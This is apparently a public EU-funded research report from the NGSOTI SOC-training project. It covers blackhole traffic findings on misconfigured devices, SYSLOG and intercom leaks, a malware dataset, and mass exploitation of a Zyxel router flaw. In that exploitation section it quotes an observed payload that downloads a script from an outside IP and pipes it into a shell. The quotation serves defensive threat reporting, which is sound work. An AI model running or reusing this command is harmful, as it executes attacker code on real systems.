


# Data key findings \#1

## Disclaimer

Co-funded by the European Union. Views and opinions expressed are
however those of the author(s) only and do not necessarily reflect those
of the European Union or the European Cybersecurity Competence Centre.
Neither the European Union nor the granting authority can be held
responsible for them.

Words displayed in red indicate hyperlinks. These links can be clicked
or viewed by hovering over the text.

## Distribution and License

The document is distributed under Creative Common Attribution 4.0
International
[CC-BY](https://creativecommons.org/licenses/by/4.0/deed.en).

The document is distributed as TLP:CLEAR.

## Deliverable Definition

The identifier of the deliverable is D2.2 and it adheres to the
definition outlined in the grant agreement **Public report with key
findings of data collected in NGSOTI such as new discoveries, high level
statistics to attacked schools to use NGSOTI**. The deliverable name is
**NGSOTI data key finding report \#1**.

The purpose of this report is to provide an initial assessment of the
data collected in NGSOTI. It describes the initial findings revealed
through a manual, non-exhaustive analysis.

# Abstract

The Next Generation Security Operator Training Infrastructure (NGSOTI)
aims to provide an open-source environment for Security Operations
Center (SOC) operators to train in handling network-related alerts. This
document outlines the objectives, methodologies, and findings of the
NGSOTI project, including a detailed analysis of misconfigured systems
and blackhole traffic data which models attacks schools. The data used
to generate these findings is generic and not limited to school
infrastructure, but instead models attacks at large.

# Introduction

The NGSOTI project is a collaborative effort aimed at enhancing the
training infrastructure for SOC operators. Coordinated by CIRCL, the
initiative involves partnerships with Restena, Tenzir, and the
University of Luxembourg. The project began on January 1, 2024, and is
scheduled to conclude on December 31, 2026, with a total budget of
€1,477,349.00. CIRCL leads the effort as the project coordinator, with
additional funding provided by the European Union.

NGSOTI’s primary goal is to equip SOC operators with practical tools and
methodologies to handle real-world incidents. It bridges the gap between
theoretical knowledge and practical application through hands-on
experience using open-source technologies.

Datasets collected during the project are used for ongoing research and
are published in the NGSOTI [GitHub
repository](https://github.com/ngsoti/ngsoti/blob/main/datasets.md).
These datasets consist of real data recorded in live mode and support
research on threat detection, modeling, and prevention.

This report is structured as follows: objectives, blackhole traffic
analysis and observations, real-world case studies, and a final
conclusion.

# Objectives

The NGSOTI project aims to establish an open-source infrastructure
tailored for SOC operator training. The infrastructure is designed to
address key aspects of cybersecurity operations, including incident
response which would equip operators with tools to swiftly detect and
mitigate threats, as well as handling crisis situations; log management,
which is essential for analyzing vast amounts of data recorded from
multiples devices in a network, and take appropriate actions and SOC
management processes to better streamline operational efficiency.
Additionally, the project emphasizes communication for a better team
coordination, documentation for an accurate reporting and swift handling
of issues, and the integration of cyber threat intelligence (CTI) using
tools like MISP, which provide actionable insights into emerging threats
and would enable a better prevention when combined with other tools and
sensors like the blackhole. By employing technologies such as Suricata
for intrusion detection, Zeek for detailed network logs, and Tenzir and
parallel processing tools to handle large-scale security data, the
project seeks to enhance intrusion detection and analysis capabilities.
Tools like FlowIntel for case management and tools such as OpenNMS for
monitoring are also integral to the training platform. Furthermore, the
action incorporates MeliCERTes’ Cerebrate tool, which improves
collaboration and intelligence sharing across security communities
ensuring a comprehensive approach to SOC training.

# Blackhole Traffic Analysis

The project uses a methodical approach to analyze misconfigured systems
by routing unused network ranges to a specific IP address for full
packet capture. This setup allows for the collection of data on network
activities that may indicate misconfigurations or malicious behavior.
The captured data is streamed unidirectionally to a D4 collector,
enabling a detailed analysis of the traffic. The dataset analyzed during
the project spans from January 1, 2024, to October 17, 2024, and
includes over 10,226 unique destination IP addresses. In total, 4.31 TB
of data was collected. This data provides invaluable insights into the
nature of misconfigured devices and the patterns of malicious activities
observed within the blackhole networks. An evolution of the volume of
the dataset is shown in figure 1. The figure shows a gap between May and
June due to DNS issues on the sensor, which was unable to reach the
collector. Several peaks were observed on 2024-07-01, 2024-08-27, and
2024-08-28. Misconfigured devices are a recurring theme in the analysis.
These misconfigurations often result from typographical errors or
improper default routing setups. For instance, devices that send SYSLOG
messages to unintended networks represent a common type of
misconfiguration. Similarly, MikroTik routers are often observed
connecting to external services, such as cloud.mikrotik.com, due to
default configurations. DNS misconfigurations are another significant
finding. When a secondary DNS resolver is misconfigured, it frequently
goes unnoticed, leading to unintended traffic redirection. These
observations highlight the importance of proper configuration and
monitoring practices to avoid exposing sensitive systems to potential
threats.

<figure>

<figcaption aria-hidden="true">Collected IP packet over
time</figcaption>
</figure>

# Example Cases

## Mass Exploitation of Devices

Mass exploitation campaigns are a critical concern in cybersecurity.
Attackers often exploit known vulnerabilities as soon as they are
disclosed. Figure 2 illustrates the evolution of exploits discovered
over time in the dataset. A notable example observed during the project
was the exploitation of the Zyxel router vulnerability (CVE-2023-28771),
which allowed attackers to bypass authentication. The exploitation
involved malicious payloads, such as the following command executed on
vulnerable systems:

``` bash
bash -c$  "curl http://92.60.77.85/z -o-|sh";
```

This case underscores the need for timely patching and proactive defense
mechanisms to mitigate the risks associated with known vulnerabilities.

<figure>

<figcaption aria-hidden="true">Discovered exploits</figcaption>
</figure>

## SYSLOG Misconfiguration

Another observed issue was the improper configuration of SYSLOG
services. Devices inappropriately sent SYSLOG messages to blackhole
networks. For example, a SYSLOG message from a misconfigured firewall
contained the following: 2024-10-01 12:49:18 IP x.x.196.218.45389 \>
x.x.x.x.514: SYSLOG local0.info This type of misconfiguration can result
in the unintentional exposure of internal system information, creating
vulnerabilities for exploitation. The sample of keywords was extracted
from the syslog message to derive the origine of the devices.

- test_notify_glucose
- test_notify_hyperkalemia
- test_notify_hypokalemia
- test_notify_hyponatremia
- test_notify_na
- test_xray_report
- Gateway
- Internal
- Network
- Packet
- Policy
- SharedOfficeWAN
- Password
- Python
- Peer
- Pwn2Own
- Schneider
- ServiceDesk
- TELEPHONE
- ThawtePremiumServerCA
- ThawteCodeSigningCA
- WebAccess
- WebSupport
- Cisco
- CiscoBlogSmallBusiness
- vpncisco
- nettexvpn
- officevpn
- openvpn
- poavpn
- scancode_vpn

## Intercom Systems and XML Messages

Misconfigured intercom systems were also identified during the analysis.
For example, an intercom system transmitted an XML-based message
containing sensitive details, such as device serial numbers and IP
addresses:

    <videoIntercomMsg>
      <header>
        <method>1</method>
        <action>1</action>
        <from>
          <deviceSN>Q05586499</deviceSN>
        </from>
      </header>
    </videoIntercomMsg>

Such exposures highlight the risks associated with improper device
configuration and the potential for unauthorized access to sensitive
systems.

## Malware Dataset

In the context of the NGSOTI project, we are actively growing and
maintaining a malware samples
[dataset](https://helga.circl.lu/NGSOTI/malware-dataset). This
initiative does not aim to create yet another malware-sharing
repository. Instead, its primary objective is to host representative
samples from various malware families.

Alongside the malware samples, the dataset also includes analysis
data—such as packet capture (PCAP) files, log files, and other
artifacts—extracted through automated analysis. These analyses leverage
tools developed within the NGSOTI project, including
[Kunai](https://github.com/kunai-project/kunai). This dataset serves as
a foundational resource for further activities and research within the
project.

The following are the key applications we plan for this data:

- **Rule Development and Sharing**: Leverage Kunai logs to create and
  share detection rules with the
  [community](https://github.com/kunai-project/community-rules). These
  rules aim to enhance threat detection and provide actionable
  intelligence.
- **SOC Training Scenarios**: Use Kunai logs and PCAP files as realistic
  injects for Security Operations Center (SOC) training exercises. This
  enables the simulation of real-world attack scenarios to enhance the
  skills of SOC analysts.

# Conclusions

The NGSOTI project demonstrates the critical importance of proper
configuration and monitoring in maintaining the security of networked
systems. Misconfigured devices, often the result of typographical errors
or default settings, represent a significant security risk. The rapid
exploitation of known vulnerabilities further emphasizes the need for
proactive measures, such as timely patching and effective monitoring.
The project’s open-source approach provides a valuable training platform
for SOC operators, enabling them to work with real-world data and tools.
By fostering practical skills and emphasizing real-time analysis, NGSOTI
equips cybersecurity professionals to better respond to emerging
threats.
